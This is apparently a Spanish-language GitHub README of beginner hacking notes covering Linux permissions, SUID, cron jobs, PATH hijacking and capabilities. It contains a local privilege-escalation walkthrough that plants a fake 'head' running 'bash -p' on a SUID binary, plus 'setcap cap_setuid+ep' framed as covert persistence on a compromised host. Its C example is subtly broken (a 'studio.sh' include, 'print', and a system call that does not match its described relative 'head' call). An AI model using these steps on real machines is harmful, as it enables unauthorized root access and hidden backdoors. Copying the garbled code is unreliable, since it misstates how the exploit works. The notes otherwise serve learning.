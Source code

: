 # HACKING BÁSICO
## Material de apoyo:
### Repositorios
<a href="https://gtfobins.github.io/"> GTFObins </a>

### Información
<a href="https://culturacion.com/como-crear-cuentas-de-usuario-en-linux/">  Guía de creación de usuarios en linux </a> <br>
<a href="https://www.pedroventura.com/linux/administracion-de-usuarios-en-linux-crear-borrar-modificar-usuarios-y-grupos/"> Administración de usuarios en linux </a> <br>
<a href="https://blog.desdelinux.net/permisos-basicos-en-gnulinux-con-chmod/"> Permisos básicos en GNU/Linux con chmod </a> <br>
<a href="https://blog.desdelinux.net/permisos-y-derechos-en-linux/"> Permisos y derechos en Linux </a> <br>
<a href="https://mural.uv.es/oshuso/8339_permisos_y_atributos.html"> Permisos y atributos </a> <br>
<a href="https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/"> Permisos especiales en Linux: Sticky Bit, SUID y SGID </a> <br>
<a href="https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html"> El permiso SUID </a> <br>
<a href="https://www.redeszone.net/tutoriales/servidores/cron-crontab-linux-programar-tareas/"> Como utilizar Cron y Crontab en Linux </a> <br>
<a href="https://man7.org/linux/man-pages/man7/capabilities.7.html"> Capabilites - Linux manual page </a> <br>
<a href="https://www.incibe-cert.es/blog/linux-capabilities"> Linux kernel capabilities - No solo de sudo vive root </a> <br>
<a href="https://deephacking.tech/path-hijacking-y-library-hijacking/"> Path Hijaking y Library Hijacking </a> <br>

## Conceptos Básicos
### Permisos
    drwxr-xr-x marcos marcos 4.0 KB Mon Dec 26 23:45:52 2022  marcos

  d = type: directory

  rwx r-x r-x <br>
  u&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;g&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;o <br>
  111 101 101 <br>
<br>
  rwx = 111 = 7<br>
  rw- = 110 = 6<br>
  r-x = 101 = 5<br>
  r-- = 100 = 4<br>
  -wx = 011 = 3<br>
  -w- = 010 = 2<br>
  --x = 001 = 1<br>
<br>
  u = owner<br>
  g = group<br>
  o = others<br>
<br>
  r = read permision<br>
  w = write permision<br>
  x = execution permision<br>
  
### Permisos SUID
  El permiso SUID permite a un usuario ejecutar programas con los privilegios del root <br>
  Por ejemplo: EL comando passwd necesita acceder a los ficheros /etc/passwd en modo escritura, <br>
  y solo root puede hacerlo.
  <br>
  Se asignan usando el sigiente comando: <br>
  ```
  chmod 4755 <programa>
  ```
  Estaremos asignando lor privilegios 755 más el privilegio 4 o SUID <br>

### Tarea Cron
  Tarea que se ejecuta a nivel de sistema, a nivel regulares de tiempo.
  ```
  cd /etc/cron.d
  echo "* * * * * root /home/user/file.sh" > tareaCron
  ```
  En este comando nos dirijimos al directorio que se situa en /etc/cron.d donde crearemos nuestra tarea cron. <br>
  Los cinco asteriscos significan que queremos que la tarea se ejecute cada minuto, root significa el usuario que queremos <br>
  que la ejectue y por último tenemos la ruta /home/user/file.sh que es donde está el script en bash que ejecutara la tareaCron. <br>
  
  ### Explotación del PATH Hijaking
  Es una técnica de escalada de privilegios, con la cuál se utiliza el PATH que es una variable que almacena las rutas de los programas <br>
  hasta que encuentra la ruta del programa que hemos ejecutado. <br>
  <br>
  Un ejemplo de Path Hijaking sería el siguiente: <br>

  1. Creamos un programa en c que en este caso llamaremos app.c <br>
  ```
  touch app.c
  nano app.c
  ```
  2. Insertamos el siguiente código.<br>
     Este código saca las 10 primeras lineas del archivo passwd dos veces, la primera vez<br>
     lo hace usando la ruta absoluta del archivo y la seguna vez usando la relativa.
  ```
  #include <studio.sh>
  
  void main(){
  
    setuid(0);
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando /usr/bin/head \n\n");
    system("/usr/bin/head /etc/passwd");
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando head \n\n");
    system("/etc/passwd");
  
  }
  ```
  3. Compilamos el archivo app.c
  ```
  gcc app.c -o app
  ```
  4. Si le asignamos al programa compilado app el permiso SUID, al ejecutar el binario lo estaremos<br>
  haciendo como el usuario root. De esta forma se podría llevar a cabo el Path Hijacking, y haciendo un <br>
  del binario podríamos identificar que se esta llamando al archivo de forma relativa.
  ```
  chmod 4755 app
  strings app
  ```
  Podemos fijarnos que la respuesta del string nos dice que se esta usando setuid en el código, <br>
  lo que significa que se ejecutará con el usuario UID.<br> <br>
  
  5. Ahora que ya sabemos que se está ejecutando con el usuario UID, vamos a cambiar el PATH añadiendo la <br>
  ruta actual en la cuál vamos a crear un archivo con el nombre del programa que queremos suplantar, en este <br>
  caso el head.
  ```
  export PATH=.:$PATH
  echo "bash -p" > head
  ```
  Lo que hacemos con el primer comando es añadir como primera ruta para buscar los programas el directorio actual <br> (es temporal), después creamos un archivo para suplantar ese programa y que lo detecte el cual contiene un <br>
  comando para entrar como root.
  De esta manera al ejecutar el binario app con permisoso SUID ejecutará el comando head, el PATH buscará en orden <br> el programa en nuestro directorio actual, y ejecutará el código que hemos metido entrando al sistema como root.

### Abuso y explotación de las capabilities
En el caso de que ya se haya comprometido un equipo y hayamos dejado una una persistencia privilegiada, en este caso utilizaremos las capabilities.<br>
Para ver las capabilities que hayan definidas a nivel de sistema utilizamos el siguiente comando:
```
getcap -r / 2>/dev/null
```
Cuando estemos dentro de un equipo y asignemos una capabilite podemos asignar distintos tipos para que a la hora de entrar de nuevo al equipo no tenr <br>
que explotar la misma vulnerabilidad y entrar mas seguramente. Estas pasan desapercibidas ya que no tienen permisos SUID.<br>
En el siguiente enlace podemos ver una web donde muestra distintos tipos de capabilities que podemos crear para luego explotarlas y entrar facilmente:
<a href="https://gtfobins.github.io/#+capabilities"> GTFOBins: Capabilities </a> <br>
Para definir una capabilitie se usa el siguiente comando:
```
setcap cap_setuid+ep /usr/bin/<capabilitie>
```
Para remover una capabilitie se usa el siguiente comando:
```
setcap -r /usr/bin/<capabilitie>
```
## Pentesting
  
  
  
  
  
  
  
  
